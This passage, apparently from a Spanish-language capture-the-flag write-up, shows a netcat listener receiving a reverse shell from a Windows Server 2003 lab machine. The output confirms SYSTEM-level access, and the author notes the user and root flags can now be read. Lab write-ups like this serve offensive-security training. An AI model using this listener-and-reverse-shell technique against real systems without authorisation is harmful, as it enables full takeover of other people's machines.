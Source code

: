 ```bash
❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.10.15] 1050
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

whoami
whoami
nt authority\system

C:\WINDOWS\system32>
```

Ya con esto nos encontramos dentro de la máquina como el usuario `nt authority\system` y podemos visualizar las flags (user.txt y root.txt).
